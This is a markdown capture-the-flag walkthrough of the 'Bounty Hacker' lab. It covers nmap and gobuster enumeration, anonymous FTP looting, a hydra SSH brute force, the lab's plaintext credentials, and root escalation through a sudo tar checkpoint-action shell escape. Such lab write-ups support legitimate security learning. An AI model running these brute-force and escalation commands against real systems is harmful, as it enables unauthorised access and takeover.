

# Bounty Hacker

## Enumeration

```bash
export IP=10.10.22.0
nmap -A -v $IP -oN scans/nmap.log
```


### Enumerate web server with gobuster
```
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```


FTP port allows anonymous login, get the loot

```bash
mkdir loot
cd loot
ftp $IP
mget *
```


Explore the text files obtained

 <br>
 <br>

Seems like **locks.txt** is a wordlist of passwords and the **task.txt** files suggest ***lin*** is some kind of admin. 

There is not much we can try to bruteforce here except ssh, use hydra

```bash
hydra -l lin -P '/home/user/THM/BountyHacker/loot/locks.txt' $IP ssh -V
```


<details><summary>Credentials</summary>
>username: lin <br>
>password: RedDr4gonSynd1cat3 <br> 
</details>

Get in with SSH
```bash
ssh lin@$IP

```
>user.txt <br>



To get root use an enumaration tool like linpeas
Transfer linpeas to a writteable folder, give it execution rights and execute it

<details><summary>Linpeas method</summary>
<p>

```bash
scp ./linpeas.sh lin@$IP:/dev/shm
cd /dev/shm/
chmod +x linpeas.sh
./linpeas.sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
whoami
find / -name *root.txt 2>/dev/null
cat /root/root.txt
```

</p>
</details>

<details><summary>LOTL Method</summary>
<p>

```bash
ssh lin@$IP
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
whoami
find / -name *root.txt 2>/dev/null
cat /root/root.txt
```
 <br>
 <br>
</p>
</details>
